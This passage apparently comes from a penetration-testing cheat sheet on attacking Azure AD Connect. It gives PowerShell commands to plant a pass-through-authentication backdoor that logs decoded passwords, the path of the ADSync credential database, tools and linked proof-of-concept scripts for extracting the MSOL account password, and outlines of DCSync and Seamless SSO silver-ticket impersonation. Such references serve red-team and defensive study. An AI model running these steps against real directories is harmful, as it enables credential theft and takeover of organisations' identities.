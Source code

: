 ⧉ Copied!

1.  Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2.  Install a PTA Backdoor
    
    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```
    
    ⧉ Copied!
    

### Azure AD Connect - Password extraction

Credentials in AD Sync : C:\\Program Files\\Microsoft Azure AD Sync\\Data\\ADSync.mdf

| Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally |
| --- | --- | --- | --- | --- |
| ADSyncDecrypt | Yes | Yes | No  | No  |
| ADSyncGather | Yes | No  | No  | Yes |
| ADSyncQuery | No (network RPC calls only) | No  | Yes | Yes |

```powershell
git clone https://github.com/fox-it/adconnectdump
# DCSync with AD Sync account
```

⧉ Copied!

### Azure AD Connect - MSOL Account's password and DCSync

You can perform **DCSync** attack using the MSOL account.

Requirements:

- Compromise a server with Azure AD Connect service
- Access to ADSyncAdmins or local Administrators groups

Use the script **azuread\_decrypt\_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:

- `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
- `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

### Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

> Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.
